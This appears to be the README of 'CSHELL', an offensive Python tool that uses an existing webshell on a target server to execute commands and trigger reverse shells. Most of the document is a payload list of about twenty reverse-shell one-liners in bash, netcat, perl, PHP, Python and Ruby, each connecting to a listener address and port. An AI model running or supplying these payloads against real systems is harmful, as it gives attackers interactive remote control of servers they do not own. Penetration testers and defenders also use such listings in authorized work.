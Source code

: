 # CSHELL
***
This script takes a working webshell as an argument and can perform the following operations
- rev : This option sends a payload according to your choice and triggers that payload on the target webshell<br\>
- web : This parameter can execute direct command on the webshell using persisted working directory and error message<br/>
- lstnr : This option generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]
## Install
```pip3 install -r requirements.txt```
### Usage
```
$ ./cshell.py --help
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...

positional arguments:
  {rev,web,lstnr}

optional arguments:
  -h, --help       show this help message and exit
  --payloads       List all payload formats for rev

web     Direct command execution on the webshell with error message
rev     Reverse shell from a working webshell
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]

```

### Payloads
```
$ ./cshell.py --payloads
========================================================================================================
Format-Name                     Payload
========================================================================================================
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f
nc                              nc -e /bin/bash 127.0.0.1 1337
nc-c                            nc -c /bin/bash 127.0.0.1 1337
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
====